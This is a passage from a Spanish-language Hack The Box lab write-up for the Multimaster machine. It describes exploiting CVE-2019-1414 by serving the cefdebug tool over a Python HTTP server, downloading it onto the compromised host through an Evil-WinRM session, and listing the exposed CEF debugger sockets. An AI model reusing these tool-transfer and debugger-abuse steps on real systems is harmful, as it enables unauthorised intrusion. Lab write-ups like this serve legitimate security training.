 <img src="/writeups/assets/img/Multimaster-htb/5.png" alt="">

Busco por el CVE en Github y encuentro un [PoC](https://iwantmore.pizza/posts/cve-2019-1414.html) donde explican en que consiste

<img src="/writeups/assets/img/Multimaster-htb/6.png" alt="">

Como está hablando un puerto en escucha que contiene un debugger, descargo la herramienta [cefdebug](https://github.com/taviso/cefdebug) de Github, que en caso de que se logre conectar, puedo llegar a ejecutar comandos

Descargo el release, y me monto un servicio http con python para transferirlo

```null
python3 -m http.server 80
```

Desde la máquina víctima lo descargo

```null
*Evil-WinRM* PS C:\Temp> iwr -uri http://10.10.16.6/cefdebug.exe -o cefdebug.exe
```

Y detecta tres debbugers activos

```null
*Evil-WinRM* PS C:\Temp> .\cefdebug.exe
cefdebug.exe : [2023/01/25 05:13:10:6860] U: There are 5 tcp sockets in state listen.
    + CategoryInfo          : NotSpecified: ([2023/01/25 05:...n state listen.:String) [], RemoteException
    + FullyQualifiedErrorId : NativeCommandError
[2023/01/25 05:13:30:7151] U: There were 3 servers that appear to be CEF debuggers.
[2023/01/25 05:13:30:7161] U: ws://127.0.0.1:4817/f1524df6-449c-467e-9618-e1809fd82f16
[2023/01/25 05:13:30:7161] U: ws://127.0.0.1:53876/1bfb6cf5-7bdc-465b-9e37-d91b2d57f23e
[2023/01/25 05:13:30:7171] U: ws://127.0.0.1:45345/7ed4cd69-c8dc-4c0c-8cab-0136415eff19
```
